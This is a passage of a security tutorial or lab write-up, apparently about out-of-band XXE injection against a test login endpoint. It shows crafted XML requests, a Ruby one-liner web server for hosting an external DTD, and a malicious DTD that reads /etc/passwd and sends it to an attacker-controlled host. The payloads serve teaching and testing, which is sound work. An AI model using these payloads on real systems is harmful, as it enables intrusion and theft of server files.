 ```http
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 27
	 
	username=test&password=test
```
-->We will now need to modify this request to send XML, to do this, we will need:
-   Remove all the unneeded information to make debugging easier.
-   To add the XML message in the body of the request.
-   To change the Content-Type of the request.
```http
	POST /login HTTP/1.1
	Host: vulnerable
	Connection: close
	Content-Type: text/xml
	Content-Length: 36
	 
	<?xml version="1.0"?>
	<foo>bar</foo>
```
-->Finally, we need to add the XML entity payload:
```http
	POST /login HTTP/1.1
	Host: vulnerable
	Connection: close
	Content-Type: text/xml
	Content-Length: 97
	 
	<?xml version="1.0"?>
	<!DOCTYPE foo SYSTEM "http://192.168.159.1:3000/test.dtd">
	<foo>&e1;</foo>
```
-->Where http://192.168.159.1:3000/test.dtd is the location of the DTD.
-->Now that we have a proper HTTP request containing XML, we can send it to the server. If all goes well, the server should respond with a HTTP 400 error as it's unable to retrieve the DTD.

## Serving the DTD (step 2&3)
-->To serve the DTD or any file, you will need a web server. This can be done with any server, however you will need to be able to see if the server tries to retrieve the DTD. In a real scenario, the server may not be able to access your server, so you will need to be able to detect that something is preventing that.
- Run a tiny web server in the foreground. I personally use Webrick and have a Shell alias always ready to start a web server:
```ruby
alias web="ruby -run -ehttpd . -p3000"
```
--> Run a web sever and use tail -f on the log to see every request received.
-->Using the alias above, you should see the following:
```http
	% web
	[2015-03-31 08:19:28] INFO  WEBrick 1.3.1
	[2015-03-31 08:19:28] INFO  ruby 1.9.3 (2012-12-25) [x86_64-darwin12.2.1]
	[2015-03-31 08:19:28] WARN  TCPServer Error: Address already in use - bind(2)
	[2015-03-31 08:19:28] INFO  WEBrick::HTTPServer#start: pid=6028 port=3000
```
-->Once you got this working, make sure you can access the file using a browser and that you can see the requests:
```http
localhost - - [31/Mar/2015:08:20:46 AEDT] "GET /test.dtd HTTP/1.1" 200 153
http://localhost:3000/ -> /test.dtd
```
-->To force the server to send you the content, you will need to use the following DTD:
```xml
<!ENTITY % p1 SYSTEM "file:///etc/passwd">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://192.168.159.1:3001/BLAH?%p1;'>">
```